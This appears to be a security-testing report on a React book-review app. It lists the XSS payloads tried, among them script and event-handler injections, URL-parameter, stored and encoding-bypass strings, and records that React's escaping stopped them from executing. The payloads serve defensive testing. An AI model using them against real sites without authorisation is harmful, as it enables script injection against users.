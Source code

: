 # Tested XSS Payloads

### Basic XSS Payloads

Entered into all user input fields.

```html
<script>alert('XSS1')</script>
<img src="x" onerror="alert('XSS1')">
<body onload="alert('XSS1')">
<svg onload="alert('XSS1')">
<iframe src="javascript:alert('XSS1')">
<a href="javascript:alert('XSS1')">Click me</a>
```
    
### React-Specific XSS Payloads

Entered into all React components.

```jsx
{/* React comment with JS */}
{`${alert('XSS1')}`}
{eval('alert("XSS1")')}
<div dangerouslySetInnerHTML={{__html: "<script>alert('XSS1')</script>"}} />
```

### Event Handler Payloads

```jsx
"><div onClick="alert('XSS1')">Click me</div>
"><input value="XSS1" onFocus="alert('XSS1')" autofocus>
"><button onmouseover="alert('XSS1')">Hover me</button>
```

### URL Parameter Payloads

Entered into all URL parameters.

```html
?search=<script>alert('XSS1')</script>
?q=<img src=x onerror=alert('XSS1')>
?redirect=javascript:alert('XSS1')
```

### Stored XSS Payloads

Entered into all review fields.

```html
Nice book! <script>alert('XSS1')</script>
I enjoyed reading this. <img src="x" onerror="alert('XSS1')">
Great story! <svg onload="alert('XSS1')"></svg>
```

### Encoding Bypass Payloads

```html
%3Cscript%3Ealert('XSS1')%3C/script%3E
<scr<script>ipt>alert('XSS1')</script>
&#x3C;script&#x3E;alert(&#x27;XSS1&#x27;)&#x3C;/script&#x3E;
```

## Findings:
- All payloads above were stored in the database when entered as a username, but not password on signup.
- All payloads above were stored in the database when entered as a review.
- Payloads did not execute when accessed from database.
- Escaping of special characters was implemented by React.

## Recommendations:
- User inputs should be sanitized and validated before being stored in the database.
- User inputs should be sanitized and validated before being rendered to the DOM.